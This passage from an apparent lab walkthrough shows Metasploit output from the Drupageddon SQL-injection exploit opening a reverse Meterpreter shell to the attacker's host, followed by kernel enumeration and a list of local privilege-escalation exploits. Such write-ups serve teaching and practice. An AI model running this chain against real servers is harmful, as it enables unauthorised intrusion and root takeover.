 ``` 

References:
  https://cvedetails.com/cve/CVE-2014-3704/
  https://www.drupal.org/SA-CORE-2014-005
  http://www.sektioneins.de/en/advisories/advisory-012014-drupal-pre-auth-sql-injection-vulnerability.html
msf exploit(drupal_drupageddon) > exploit

[*] Started reverse TCP handler on 192.168.217.132:4444 
[*] Testing page
[*] Creating new user yCTZcwgtLV:WLhkIYdDtB
[*] Logging in as yCTZcwgtLV:WLhkIYdDtB
[*] Trying to parse enabled modules
[*] Enabling the PHP filter module
[*] Setting permissions for PHP filter module
[*] Getting tokens from create new article page
[*] Calling preview page. Exploit should trigger...
[*] Sending stage (37543 bytes) to 192.168.217.139
[*] Meterpreter session 1 opened (192.168.217.132:4444 -> 192.168.217.139:51854) at 2018-05-04 13:48:44 -0400
```

I dropped into a shell and checked the kernel version:

``` 
meterpreter > shell
Process 1385 created.
Channel 0 created.
uname -a
Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I ran the 3.13 version through the exploit check part of my [privcheck](https://github.com/chousensha/linux_privcheck) script:

``` 
python linux_privcheck.py 
Kernel version is 3.13
###########################################
POTENTIALLY VULNERABLE TO
Name: Double-free usb-midi SMEP Local Privilege Escalation
CVE: CVE-2016-2384
Source code: https://www.exploit-db.com/exploits/41999/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: overlayfs Privilege Escalation
CVE: CVE-2015-1328
Source code: https://www.exploit-db.com/exploits/37292/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: ptrace/sysret Privilege Escalation
CVE: CVE-2014-4699
Source code: https://www.exploit-db.com/exploits/34134/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
Name: CLONE_NEWUSER|CLONE_FS Privilege Escalation
CVE: N/A
Source code: https://www.exploit-db.com/exploits/38390/
###########################################
###########################################
POTENTIALLY VULNERABLE TO
```